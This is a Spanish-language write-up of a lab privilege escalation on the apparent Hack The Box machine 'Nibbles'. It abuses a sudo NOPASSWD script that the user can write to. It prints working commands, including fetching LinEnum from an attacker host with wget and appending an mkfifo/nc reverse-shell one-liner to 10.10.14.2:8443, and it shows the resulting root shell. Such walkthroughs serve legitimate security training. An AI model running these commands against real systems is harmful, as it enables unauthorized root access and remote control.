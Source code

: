 # Escalada de privilegios — Nibbles (resumen)

## Resumen breve

Partiendo de un shell como **nibbler** en la máquina *Nibbles*, encontramos un script *monitor.sh* dentro del ZIP `personal.zip` que es **escribible** por `nibbler` y además aparece en la lista de comandos que `nibbler` puede ejecutar con `sudo` **sin contraseña** (NOPASSWD). Aprovechando esto, añadimos una simple línea con un **reverse shell** al final de `monitor.sh`, lo ejecutamos con `sudo` y recuperamos una **shell como root**.

Este es un patrón clásico de PrivEsc: **archivo ejecutable por root + escritura por usuario no privilegiado = escalada**.

---

## Pasos y comandos (todo en bloques de código)

### 1) Descomprimir y revisar el contenido

```bash
unzip personal.zip
ls -R personal
cat personal/stuff/monitor.sh
```

### 2) Descargar y ejecutar LinEnum para enumeración automática (desde la atacante)

En tu máquina atacante (o Pwnbox):

```bash
sudo python3 -m http.server 8080
# (en otra terminal) curl http://<tu_ip>:8080/LinEnum.sh
```

En la máquina objetivo (Nibbles):

```bash
wget http://<tu_ip>:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

> Observa la salida: LinEnum detecta que `nibbler` puede ejecutar con sudo **/home/nibbler/personal/stuff/monitor.sh** como root sin contraseña.

### 3) Confirmar privilegios sudo (ejemplo de salida relevante)

```text
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

### 4) Respaldar y modificar el script para añadir payload

**Hacer copia de seguridad (importante):**

```bash
cp /home/nibbler/personal/stuff/monitor.sh /home/nibbler/personal/stuff/monitor.sh.bak
```

**Añadir reverse shell al final (sustituye IP/PUERTO):**

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a /home/nibbler/personal/stuff/monitor.sh
```

### 5) Preparar listener en atacante y ejecutar el script con sudo

En la máquina atacante:

```bash
nc -lvnp 8443
```

En la máquina objetivo (ejecutar como nibbler):

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

### 6) Comprobar la shell recibida y confirmar escalada

Ejemplo de salida en el listener:

```
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Buenas prácticas y notas

* **Siempre** haz una copia de seguridad del fichero antes de modificarlo (`.bak`).
* Añade solo lo necesario (append) para evitar romper la funcionalidad del script y causar efectos no deseados.
* Este tipo de explotación **solo** debe realizarse con autorización explícita (laboratorio, CTF o cliente autorizado).
* Tras obtener root, recuerda documentar todo y, si corresponde, eliminar artefactos (payloads) si la política del engagement así lo requiere.
* Si el exploit falla, revisa permisos del archivo (`ls -l`), el path exacto en la entrada `sudo -l`, y valida que `nc` y las utilidades usadas estén disponibles en la máquina objetivo.

---

## Referencias rápidas

* LinEnum / linpeas — scripts de enumeración para PrivEsc.
* GTFOBins — uso de binarios para escalada (consultar si `monitor.sh` invoca binarios con permisos especiales).

